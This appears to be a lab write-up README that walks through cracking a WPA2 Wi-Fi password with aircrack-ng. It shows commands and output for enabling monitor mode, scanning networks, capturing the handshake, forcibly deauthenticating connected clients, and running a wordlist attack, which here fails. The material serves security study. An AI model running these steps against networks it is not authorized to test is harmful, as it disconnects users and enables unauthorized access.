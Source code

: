 # Aircrack-ng

This is documentation for using aircrack-ng as tools
to crack password files.

### [starting airmon-ng]

This command is used for checking if the wifi card supports monitoring mode or not.

````
$ sudo airmon-ng start wlp1s0

PHY	Interface	Driver		Chipset

phy0	wlp1s0		ath9k		Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
````

Once you run `sudo airmon-ng start wlp1s0`, your device will change into monitor 
mode indicated by this line 
`(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)`.


    
### [airodump-ng ESSID]

````
$ sudo airodump-ng wlp1s0mon
````

````
 CH  8 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -57       87        4    0   1   65   WPA2 CCMP   PSK  hello-world
 xx:xx:xx:xx:xx:xx  -75      125     1073   46   5  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -83       29       10    0   6  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -88       35        0    0   1  130   WPA  CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -87       16        0    0   8  130   WPA2 CCMP   PSK  xxxxxxxxxx

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx  -33    0e- 0e     0       22                     
 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx   -1    1e- 0      0        1             
 
````

### [airodump-ng and aireplay-ng]

To get four way handshake, we need **`airodump-ng`** and
**`aireplay-ng`** to run together. The tools will then connect each other to indicate the handshake has been
made or not. Fail to do this or quickly stopping the scan 
will then lead to failure to do the handshake that we need. 
It'll also generate .cap file that we can use to do password 
cracking with aircrack-ng.
 
### [airodump-ng]

By using airodump-ng, we can see essid around us that can be
pawned. What we need in this session is:

`[WPA handshake: MA:C0:AD:DR:ES:S0]`

this will indicate that 
the wpa handshake is understood. It'll show when we do the 
next step. `--write pwnd` command will specify the results
into `pwnd` file, you can change this with your own file
output.


````
$ sudo airodump-ng -c 4 --bssid MA:C0:AD:DR:ES:S0 --write pwnd wlp1s0mon
````

````
 CH  4 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm ][ WPA handshake: MA:C0:AD:DR:ES:S0
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -56  87      528      465    1   1   65   WPA2 CCMP   PSK  hello-world

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -36    1 - 1      0      331                                                               
 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -35    0e- 1     46      396  EAPOL     
````

### [aireplay-ng deauth]
Deauthenticating user that is connected to the network means
that they have to do the same login to then connect to the 
wifi that we're trying to brute-forcing. By doing this, it'll
then taking the information to do handshake with airdump-ng.

````
$ sudo aireplay-ng --deauth 50 -a MA:C0:AD:DR:ES:S0 wlp1s0mon
````

````
yyyy-mm-dd hh:mm:ss,1900-01-00 00:00:00,,MA:C0:AD:DR:ES:S0,-43,,0.000000,0.000000,0.000,0.000,Client
````


### [file list]

This is the list structure of the folder. there will be 6
files that will be indicated by the name
````
~/lab7 ls
.  ..  pwnd-01.cap  pwnd-01.csv  pwnd-01.kismet.csv  pwnd-01.kismet.netxml  pwnd-01.log.csv  readme.md
````


### [aircrack-ng command]
 
aircrack-ng will then do the cracking by using the wordlist that has
been indicated on the wordlist.txt, in this file, I'll be using
`common-wordlist.txt` as wordlist file.

````
$ sudo aircrack-ng pwnd-01.cap -w common-wordlist.txt 
````

as you can see on the results below, aircrack-ng says `KEY NOT FOUND`
this means that it can't pawn the network SSID because the wordlist
is not sufficient for this purpose.

````
                               Aircrack-ng 1.6 

      [00:00:00] 478/477 keys tested (2002.39 k/s) 

      Time left: --

                                KEY NOT FOUND


      Master Key     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
````

in the end, aircrack-ng can do its job if the wordlist is good enough
that it contains password for doing the cracking, otherwise it'll not
be useful. Brute-forcing is a good technique to use if you have enough
information of the target, otherwise, it'll fail.

